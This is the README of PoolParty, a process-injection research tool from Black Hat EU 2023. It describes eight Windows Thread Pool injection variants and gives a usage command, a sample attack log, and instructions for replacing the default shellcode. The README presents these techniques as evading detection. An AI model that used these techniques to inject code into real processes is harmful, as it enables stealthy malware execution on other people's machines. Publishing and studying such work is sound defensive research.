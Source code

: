 
# PoolParty
A collection of fully-undetectable process injection techniques abusing Windows Thread Pools. Presented at Black Hat EU 2023 Briefings under the title - [**The Pool Party You Will Never Forget: New Process Injection Techniques Using Windows Thread Pools**](https://www.blackhat.com/eu-23/briefings/schedule/#the-pool-party-you-will-never-forget-new-process-injection-techniques-using-windows-thread-pools-35446)

## PoolParty Variants

| Variant ID  | Varient Description |
| ------------- | ----------------- |
| 1  | Overwrite the start routine of the target worker factory       |
| 2  | Insert TP_WORK work item to the target process's thread pool   |
| 3  | Insert TP_WAIT work item to the target process's thread pool   |
| 4  | Insert TP_IO work item to the target process's thread pool     |
| 5  | Insert TP_ALPC work item to the target process's thread pool   |
| 6  | Insert TP_JOB work item to the target process's thread pool    |
| 7  | Insert TP_DIRECT work item to the target process's thread pool |
| 8  | Insert TP_TIMER work item to the target process's thread pool  |

## Usage
```
PoolParty.exe -V <VARIANT ID> -P <TARGET PID>
```

## Usage Examples

Insert TP_TIMER work item to process ID 1234
```
>> PoolParty.exe -V 8 -P 1234

[info]    Retrieved SeDebugPrivilege successfully
[info]    Starting PoolParty attack against process id: 1234
[info]    Retrieved handle to the target process: 00000000000000B8
[info]    Hijacked worker factory handle from the target process: 0000000000000058
[info]    Hijacked timer queue handle from the target process: 0000000000000054
[info]    Allocated shellcode memory in the target process: 00000281DBEF0000
[info]    Written shellcode to the target process
[info]    Retrieved target worker factory basic information
[info]    Created TP_TIMER structure associated with the shellcode
[info]    Allocated TP_TIMER memory in the target process: 00000281DBF00000
[info]    Written the specially crafted TP_TIMER structure to the target process
[info]    Modified the target process's TP_POOL tiemr queue list entry to point to the specially crafted TP_TIMER
[info]    Set the timer queue to expire to trigger the dequeueing TppTimerQueueExpiration
[info]    PoolParty attack completed successfully

```

## Default Shellcode and Customization
The default shellcode spawns a calculator via the [WinExec API](https://learn.microsoft.com/en-us/windows/win32/api/winbase/nf-winbase-winexec). 

To customize the executable to execute, change the path in the end of the `g_Shellcode` variable present in the main.cpp file.

## Author - Alon Leviev
* LinkedIn - [Alon Leviev](https://il.linkedin.com/in/alonleviev)
* Twitter - [@_0xDeku](https://twitter.com/_0xDeku)
